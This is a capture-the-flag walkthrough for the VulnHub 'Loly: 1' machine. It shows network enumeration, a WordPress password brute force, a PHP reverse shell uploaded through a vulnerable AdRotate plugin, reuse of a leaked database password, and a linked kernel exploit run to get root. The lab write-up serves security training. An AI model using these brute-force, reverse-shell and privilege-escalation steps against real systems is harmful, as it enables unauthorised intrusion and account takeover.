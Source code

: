 ![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/bfeaf4da-2536-4bb4-9a13-9810436e2aff)# Loly: 1

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l   
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.135	00:0c:29:0f:25:d7	VMware, Inc.
192.168.127.254	00:50:56:ea:34:a1	VMware, Inc.
```

The ip address is `192.168.127.135`, let's enumerate it

### 2.Enumeration

```bash
root@kali: -sT -sV -sC -p- -oN nmap.out 192.168.127.135
Nmap scan report for 192.168.127.135
Host is up (0.00036s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
MAC Address: 00:0C:29:0F:25:D7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

so we just need to check port 80, using nikto it reveals that the site has wordpress CMS :

```bash
root@kali: nikto -h 192.168.127.135
+ /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ /wordpress/wp-admin/: Uncommon header 'x-redirect-by' found, with contents: WordPress.
+ /wordpress/: Drupal Link header found with value: <http://loly.lc/wordpress/index.php?rest_route=/>; rel="https://api.w.org/". See: https://www.drupal.org/
+ /wordpress/: A Wordpress installation was found.
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wordpress/wp-login.php: Wordpress login found.
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ /wordpress/#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2024-05-06 04:35:09 (GMT-4) (18 seconds)
```

we need to scan the wordpress site using `wpscan` :

```bash
root@kali: wpscan --url http://192.168.127.135/wordpress/ -e u,ap
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f4a42583-023c-4d66-ac55-9243f6b5c983)

yes we found a user, let's brute force this user :

```bash
root@kali: wpscan --url http://192.168.127.135/wordpress/ -e u,ap -U users.txt -P /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1d1936e5-c66d-4d86-8f3b-542c210f700a)


now we have valid credentials, `loly:fernando`, we can login to wodpress site, but when you want to go to `wp-admin.php` it redirects you to `loly.lc`

so add server ip to `/etc/hosts` and login to wordpress.

### 3.Gaining Shell

Since we do not have access to edit theme pages or upload plugin to wordpress, we used already installed plugins to find any vulnerability

one plugin `AdRotate` is installed on the wordpress and it has vulnerability which you can find online like [here](https://github.com/jephk9/oscp-jewels/blob/main/services/wordpress-plugin-exploits.md)

and it says we can upload a php rev shell into banner, so make a revshell.php file and zip it and upload it to wordpress from here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/35ac68ee-692d-4193-902d-c4fc44646215)

and in the setting you can find where this banner goes :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2e58fb7a-da58-4485-bfb7-ebda9db0b606)

so navigate to the address and you will get the shell

```bash
┌root@kali: nc -nvlp 4444                
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.135] 45688
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 04:40:06 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4.Privilege Escalation

Check `wp-config.php` file to find the database password :

```bash
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
```

when i connect to mysql there is no new user in `wp_users` table, but the password `lolyisabeautifulgirl` can be used to change user to loly :

```bash
www-data@ubuntu:~/html/wordpress$ su loly
Password: 
loly@ubuntu:/var/www/html/wordpress$ cd /home
```

then i enumerated afew things that led to nothing, but a kernel exploit can be used :

```bash
loly@ubuntu: uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

there is a exploit for this kernel [here](https://www.exploit-db.com/exploits/45010), upload it, compile it and you will get the root


```bash
loly@ubuntu:/tmp$ ./a.out 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880034de9a00
[*] Leaking sock struct from ffff880078815280
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880076d75740
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880076d75740
[*] credentials patched, launching shell...

# cat root.txt
  ____               ____ ____  ____  
 / ___| _   _ _ __  / ___/ ___||  _ \ 
 \___ \| | | | '_ \| |   \___ \| |_) |
  ___) | |_| | | | | |___ ___) |  _ < 
 |____/ \__,_|_| |_|\____|____/|_| \_\
                                      
Congratulations. I'm BigCityBoy
```

this is how you can get root on this machine :)

